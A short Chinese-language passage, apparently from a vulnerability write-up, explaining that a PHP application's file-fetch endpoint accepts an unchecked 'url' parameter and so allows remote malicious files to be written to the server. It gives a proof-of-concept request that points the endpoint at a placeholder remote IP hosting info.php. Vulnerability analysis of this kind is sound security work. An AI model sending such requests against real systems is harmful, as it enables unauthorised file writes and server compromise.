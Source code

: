 ![22.png](assets/1704791760-5281aeb25a0eb0502b82bafab4c4ca3e.png)

可以发现上传的数据通过 url 参数传入，传参方式为$\_GPC，等同与$\_GP  
![23.png](assets/1704791760-dae188f82859f0a60fb7493e7202d45c.png)

所以可以通过 url 传入远程恶意文件地址，达到文件写入的目的

##### 漏洞验证

根据文件路径构造 url  
`/index.php?mod=web&act=public&do=file&op=fetch&url=http://远程IP/info.php`

![24.png](assets/1704791760-22e52967273aba72b0a7208b354d9365.png)
